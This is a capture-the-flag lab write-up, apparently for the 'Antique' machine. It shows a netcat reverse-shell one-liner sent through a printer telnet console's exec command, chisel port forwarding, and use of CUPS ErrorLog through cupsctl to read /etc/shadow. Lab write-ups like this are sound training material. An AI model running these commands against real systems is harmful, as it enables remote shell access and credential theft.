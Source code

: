 ```
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
as we can se, we can run system command using exec. So we can upload a reverse shell and gain access to the system,running:
```
> exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 4444 >/tmp/f
```
and here we obtain a shell ang user.txt

```
┌──(root💀kali)-[~]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.107] 33920
/bin/sh: 0: can't access tty; job control turned off
$ ls
telnet.py
user.txt
```

## Root
Having a foothold on the server, we start exploring the services that are running on the server.
```
lp@antique:~$ netstat . -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0    138 10.10.11.107:33968      10.10.14.28:4444        ESTABLISHED
tcp       10      0 10.10.11.107:23         10.10.14.28:35036       ESTABLISHED
tcp6       0      0 ::1:631                 :::*                    LISTEN     

```
There's a service running on port 361. This port is used by internet printing protocol by devault. Let's install chisel to do port forwarding
```
git clone https://github.com/jpillora/chisel
cd chisel && go build -ldflags="-s -w"
./chisel server -p8000--reverse
```
on the victin, launch the following command to forward the local port to the server listening on our client machine.
```
./chisel client 10.10.14.28:8000 R:631:127.0.0.1:631
```
Browsing to ``127.0.0.1:631`` on our machine shows CUPS administration page.  
CUPS versions less than 1.6.2 has a known local file read vulnerability. Navigate to Administration.  
Clicking on View Error Log shows the contents of error.log file. As CUPS server runs as root by default, arbitraty file read can be achieved by updating ErrorLog file path. Let's update the ErrorLog path using cupsctl.  
```
cupsctl ErrorLog="/etc/shadow"
```
Now sending a curl request to view error log page, reveals the content of /etc/shadow file (as well as root.txt).
```
```